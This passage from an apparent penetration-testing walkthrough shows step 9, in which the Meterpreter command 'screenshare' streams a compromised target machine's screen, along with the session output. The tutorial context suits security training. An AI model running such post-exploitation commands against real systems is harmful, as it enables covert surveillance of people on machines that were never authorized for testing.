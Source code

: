 ![](assets/eb01.png)

### 9. Stream the screen of the target machine

`screenshare`

```
meterpreter > screenshare 
[*] Preparing player...
[*] Opening player at: /home/kali/bpLkRVPC.html
[*] Streaming...
```
